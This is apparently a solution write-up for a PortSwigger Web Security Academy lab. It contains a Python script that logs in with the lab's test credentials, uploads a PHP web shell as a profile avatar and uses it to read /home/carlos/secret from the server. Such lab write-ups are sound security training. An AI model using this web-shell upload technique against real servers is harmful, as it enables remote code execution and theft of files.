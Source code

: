 ```yaml
---
title: Remote code execution via web shell upload
tags:
  - web-app
  - file
  - upload
  - vulnerability
---
```


<a href="https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload/">
1. Remote code execution via web shell upload</a>

We abuse an existing vulnerability in the website that allows you to uplood
arbitrary file types as the user's avatar. We abuse this by logging in and
uploading a PHP web shell as our profile's avatar. We use this to gain remote
code execution on the server, downloading the contents of /home/carlos/secret.

Solution:

```python
# usage:
# python3 1.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net \
# --f /home/carlos/secret

import re
from argparse import ArgumentParser

import requests


class Solution:
    def __init__(self, url: str, filename: str) -> None:
        self.url = url.rstrip("/")
        self.filename = filename
        self.s = None

    def login(self, username: str, password: str) -> requests.Response:
        login_url = f"{self.url}/login"
        self.s = requests.Session()
        r = self.s.get(login_url)
        csrf = re.findall(r"\"csrf\" value=\"([\w]+)\"", r.text)[0]
        r = self.s.post(
            login_url,
            data={
                "csrf": csrf,
                "username": username,
                "password": password,
            },
        )

        return r

    def solve(self) -> None:
        self.login("wiener", "peter")

        files = {
            "avatar": (
                "shell.php",
                f"<?php echo file_get_contents('{self.filename}'); ?>",
                "multipart/form-data",
            )
        }

        my_account_url = f"{self.url}/my-account"
        r = self.s.get(my_account_url)
        csrf = re.findall(r"\"csrf\" value=\"([\w]+)\"", r.text)[0]
        self.s.post(
            my_account_url + "/avatar",
            files=files,
            data={"csrf": csrf, "user": "wiener"},
        )
        r = self.s.get(f"{self.url}/files/avatars/shell.php")
        self.s.post(f"{self.url}/submitSolution", data={"answer": r.text})


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    parser.add_argument("--f", "--filename", dest="filename")
    args = parser.parse_args()
    s = Solution(args.url, args.filename)
    s.solve()


if __name__ == "__main__":
    main()
```
